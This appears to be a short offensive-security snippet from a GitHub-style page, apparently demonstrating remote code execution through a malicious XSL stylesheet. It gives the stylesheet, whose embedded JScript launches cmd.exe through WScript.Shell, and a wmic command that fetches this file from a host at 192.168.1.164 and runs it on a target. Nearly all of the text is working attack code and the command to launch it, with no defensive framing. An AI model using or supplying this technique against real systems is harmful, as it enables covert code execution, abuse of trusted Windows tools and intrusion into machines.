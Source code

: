 ```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>

```

Host on server and run on target with wmic. 
`wmic process get brief /format:"http://192.168.1.164/test.xsl"`
<img width="3349" height="1692" alt="image" src="https://github.com/user-attachments/assets/1bc118a8-91d1-4e1a-ab0e-9f6284800469" />
